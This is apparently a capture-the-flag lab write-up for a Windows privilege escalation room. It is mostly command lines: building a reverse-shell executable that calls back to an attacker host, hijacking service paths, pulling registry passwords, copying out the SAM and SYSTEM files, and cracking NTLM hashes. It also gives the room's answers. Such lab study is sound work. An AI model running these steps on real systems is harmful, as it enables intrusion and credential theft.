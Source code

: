 # Windows PrivEsc

```bash
xfreerdp /v:10.10.12.59 /u:user /p:password321 /cert-ignore \                                                                                        12 ⨯
         +clipboard /dynamic-resolution /drive:share,/tmp
```

## Task 2 Generate a Reverse Shell Executable

#### Generate a reverse shell executable and transfer it to the Windows VM.&#x20;

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.12.59 LPORT=53 \
         -a x64 --platform windows -f exe -o reverse.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-20-46.png>)

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-15-26.png>)

```
copy \\10.6.9.176\kali\reverse.exe C:\PrivEsc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-19-17.png>)

```
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-20-14.png>)

## Task 3 Service Exploits - Insecure Service Permissions

```bash
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-26-15.png>)

```bash
sc qc daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-27-23.png>)

```bash
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
net start daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-30-56.png>)

```bash
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-31-07.png>)

#### What is the original BINARY\_PATH\_NAME of the daclsvc service?

{% hint style="success" %}
`C:\Program Files\DACL Service\daclservice.exe`
{% endhint %}

## Task 4 Service Exploits - Unquoted Service Path

```bash
sc qc unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-37-31.png>)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-38-46.png>)

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-42-44.png>)

```bash
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-44-50.png>)

#### What is the BINARY\_PATH\_NAME of the unquotedsvc service?

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
{% endhint %}

## Task 9 Passwords - Registry

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-36-38.png>)

```
winexe -U 'admin%password123' //10.10.132.141 cmd.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-27-15.png>)

{% hint style="success" %}
`password123`
{% endhint %}

## Task 11 Passwords - Security Account Manager (SAM)

```bash
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

```bash
/usr/share/creddump7/pwdump.py SYSTEM SAM | tee hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-17-09.png>)

```bash
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-18-30.png>)

#### What is the NTLM hash of the admin user?

{% hint style="success" %}
`a9fdfa038c4b75ebc76dc855dd74f0da`
{% endhint %}

## Task 16 Token Impersonation - Rogue Potato

{% embed url="https://github.com/mchern1kov/pentest-everything/blob/master/privesc/windows/README.md#token-impersonation-roguepotato" %}

#### Name one user privilege that allows this exploit to work.

{% hint style="success" %}
`SeImpersonatePrivilege`
{% endhint %}

#### Name the other user privilege that allows this exploit to work.

{% hint style="success" %}
`SeAssignPrimaryTokenPrivilege`
{% endhint %}



```bash
```

```bash
```

```bash
```
